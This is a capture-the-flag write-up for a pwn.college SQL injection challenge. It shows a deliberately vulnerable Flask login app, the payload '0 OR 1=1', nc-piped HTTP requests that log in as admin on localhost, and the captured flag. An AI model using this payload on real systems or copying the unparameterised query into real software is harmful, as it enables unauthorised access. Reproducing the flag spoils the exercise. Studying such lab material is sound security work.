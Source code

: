 # 💉 SQL Injection 1 — Writeup

## 🧠 Challenge Overview

The challenge involves a Flask web application with a vulnerable login mechanism using SQLite. The objective is to log in as the `admin` user and retrieve the flag.

---

## 🧬 Source Code

```python
#!/opt/pwn.college/python

import random
import flask
import os
import sqlite3
import tempfile

app = flask.Flask(__name__)

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()

# Setup database
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as pin""", [random.randrange(2**32, 2**63)])
db.execute("""INSERT INTO users SELECT "guest" as username, 1337 as pin""")

@app.route("/session", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("identity")
    pin = flask.request.form.get("pin")
    if not username:
        flask.abort(400, "Missing `identity` form parameter")
    if not pin:
        flask.abort(400, "Missing `pin` form parameter")

    if pin[0] not in "0123456789":
        flask.abort(400, "Invalid pin")

    try:
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND pin = {pin}"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or pin")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)

@app.route("/session", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=identity>Pin:<input type=text name=pin><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

---

## Vulnerability

The application builds the SQL query like this:
```bash
query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND pin = {pin}"
```
Because the pin is injected without quotes, it allows SQL injection via numeric expressions — as long as the first character is a digit (pin[0] in "0123456789").

---

## Exploit
You can bypass the PIN check using:
```
0 OR 1=1
```

### Step 1: Login as admin using SQL injection
```bash
printf "POST /session HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:28\r\n\r\nidentity=admin&pin=0 OR 1=1\n\n" | nc challenge.localhost 80
```
This results in:
```
Set-Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aHyxbQ.AhClMqE0W8T4xNTPQab1OJHP3Uk
```

### Step 2: Use the session cookie to access the flag
```bash
printf "GET /session HTTP/1.0\r\nHost:challenge.localhost\r\nCookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aHyxbQ.AhClMqE0W8T4xNTPQab1OJHP3Uk\r\n\r\n" | nc challenge.localhost 80
```

---
## Flag
```
Hello, admin!<br>Here is your flag: pwn.college{M8aIvvd56Vhp4kc6EDr1GrmcDBS.QXzcTN2wSM0IzMyEzW}
```

Flag: pwn.college{M8aIvvd56Vhp4kc6EDr1GrmcDBS.QXzcTN2wSM0IzMyEzW}

---
